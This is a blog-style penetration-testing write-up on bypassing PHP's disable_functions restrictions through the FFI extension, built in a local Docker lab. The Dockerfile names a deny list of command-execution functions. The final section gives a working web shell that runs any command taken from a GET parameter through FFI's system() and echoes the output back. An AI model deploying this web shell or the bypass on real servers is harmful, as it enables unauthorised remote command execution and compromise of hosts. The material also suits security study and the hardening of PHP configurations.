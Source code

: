 ```yaml
---
title: PHP - Bypass Disable Functions Using FFI
tags: php security bypass disable-functions FFI web-security penetration-testing command-execution docker cybersecurity ethical-hacking exploit-development
---
```


# Description

Recently, I encountered a situation where most PHP functions were disabled. To facilitate more accurate debugging and analysis, I recreated the environment in a Docker container.

# Docker setup

## Dockerfile

```
FROM php:8.0-apache

RUN apt update
RUN apt install nano libffi-dev
RUN docker-php-ext-configure ffi --with-ffi
RUN docker-php-ext-install ffi

RUN echo "<?php phpinfo();?>" > phpinfo.php
COPY ffi_bypass.php /var/www/html/ffi_bypass.php

RUN cp /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini
RUN sed -i "s|;ffi.enable=preload|ffi.enable=true|g" /usr/local/etc/php/php.ini
RUN sed -i "s|disable_functions =|disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen|g" /usr/local/etc/php/php.ini

RUN chown -R www-data:www-data /var/www/html/

ENTRYPOINT ["apache2-foreground"]
```

## Build

```
docker build -t phpffi .
```

## Run 

```
docker run --rm -ti -p 8081:80 phpffi
```

In order to access the web application running in the Docker container, I exposed port `80` in the container to port `8081` on my local machine.

# PHPInfo

![image](https://user-images.githubusercontent.com/84577967/175967517-1f444bfa-dda2-4a68-9858-db0a007eb157.png)

## Disable Functions List

It's possible that you are wondering why the application was originally written in PHP 😆! Don't worry about it and just keep reading! No complaining allowed.

![image](https://user-images.githubusercontent.com/84577967/175967567-28591459-8d33-4b91-b5e5-13e175e6660f.png)

What took my attention that FFI is **enable** !

![image](https://user-images.githubusercontent.com/84577967/177450983-8abfc720-d340-4d9e-a1bc-de89f6a8853c.png)

# Foreign Function Interface (FFI)

## Important note

**This extension is disabled in the default PHP installation.**

![image](https://user-images.githubusercontent.com/84577967/177450600-bb90dca4-c30c-4ca6-9970-e7e5a74d9900.png)

## Introduction

![image](https://user-images.githubusercontent.com/84577967/175815888-f097b514-c0ae-47ef-aee9-01ae58e1c99b.png)

## Bypass disable functions

The FFI (Foreign Function Interface) extension in PHP allows developers to call any C function from within PHP code. This can be very useful, as it allows you to execute command-line functions such as `system()`. [system](https://www.tutorialspoint.com/c_standard_library/c_function_system.htm)

![image](https://user-images.githubusercontent.com/84577967/177451478-a105560b-18e3-48af-9ee5-65b67419a098.png)

We have to create a new FFI object using the `cdef` function

![image](https://user-images.githubusercontent.com/84577967/177452813-c9cbf070-cd3a-40c8-85f5-232f7c81417c.png)

Despite my initial efforts, I was unable to execute commands using the FFI extension. After some trial and error, I realized that the problem was with my attempts to print the results using functions such as echo or print. These functions are not capable of properly displaying the output of command-line functions, so I had to find a different way to retrieve and display the results of my commands.

Ultimately, I was able to create a small PHP script to test whether I was able to execute commands using the FFI extension. The script attempted to create a file named test, which would be an indication that command execution was successful. The code I used:

```php
<?php 
$ffi=FFI::cdef("int system(const char *command);");
$ffi->system('echo "test" > test');
?>
```

And it worked !

![image](https://user-images.githubusercontent.com/84577967/177454143-0ac183c1-eb0e-4a25-b8bf-9ee195f5325e.png)


## Final code

The PHP code below can be used to execute and print the result of any command:

```php
<?php
if(isset($_GET['cmd'])){
    $cmd=$_GET['cmd'];
    $rand=rand();
    $ffi = FFI::cdef("int system(const char *command);");
    $ffi->system("{$cmd} > /dev/shm/{$rand}");
    echo file_get_contents("/dev/shm/{$rand}");
    $ffi->system("rm /dev/shm/{$rand}");
}
?>
```

And the usage is pretty simple: `http://127.0.0.1:8081/bypass.php?cmd=id`

![image](https://user-images.githubusercontent.com/84577967/177454294-dc030ac4-4c85-4dcb-916a-1649b5a93ed7.png)

